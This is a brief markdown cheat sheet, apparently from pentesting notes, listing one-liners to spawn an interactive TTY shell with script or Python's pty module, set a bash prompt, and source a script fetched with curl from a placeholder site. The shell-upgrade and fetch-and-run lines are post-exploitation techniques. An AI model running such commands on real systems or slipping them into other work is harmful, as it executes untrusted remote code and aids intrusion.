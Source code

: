 
- **Spawn TTY shell**: `/usr/bin/script -qc /bin/bash /dev/null` - **Shows yourself as logged in**
  - **to add PWD in bash**: `PS1='\u@\h:\w\$ '`

<br />

- **Spawn Python TTY Shell**: `python -c 'import pty;pty.spawn("/bin/bash")'`

<br />

- **Run script from URL**: `source <(curl -s http://mywebsite.com/myscript.sh)`
